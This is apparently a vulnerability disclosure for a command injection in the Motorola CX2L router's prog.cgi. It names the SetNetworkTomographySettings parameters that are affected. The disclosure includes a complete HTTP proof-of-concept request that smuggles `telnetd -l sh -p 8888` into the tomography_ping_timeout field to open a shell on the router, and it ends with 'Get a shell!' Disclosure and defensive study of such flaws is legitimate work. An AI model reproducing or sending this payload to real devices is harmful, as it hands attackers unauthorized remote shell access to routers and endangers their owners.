


# Motorola Vulnerability

Vendor:Motorola

Product:CX2L

Version:1.0.1

Type:Remote Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability  in Motorola router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetNetworkTomographySettings` function, `tomography_ping_address、tomography_ping_size、tomography_ping_timeout、tomography_ping_ttl` is directly passed by the attacker, so we can control the `tomography_ping_address、tomography_ping_size、tomography_ping_timeout、tomography_ping_ttl` to attack the OS.

As you can see here, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.


## PoC

We set `tomography_ping_timeout` as **`telnetd -l sh -p 8888`** , and the router will excute it,such as:

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.51.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
HNAP_AUTH: 9D736821F2AB15929800EB0CFAA82198 1749735039466
Content-Length: 212
Origin: http://192.168.51.1
Connection: close
Referer: http://192.168.51.1/Diagnosis.html
Cookie: work_mode=router; uid=zBvmHTHO; PrivateKey=CD223E7950B3E739AB4A82C45C372637; timeout=2

{"SetNetworkTomographySettings":{"tomography_ping_address":"www.baidu.com","tomography_ping_number":"5","tomography_ping_size":"64","tomography_ping_timeout":"`telnetd -l sh -p 8888`","tomography_ping_ttl":"20"}}
```


## Result

Get a shell!

<div  align="center"></div>
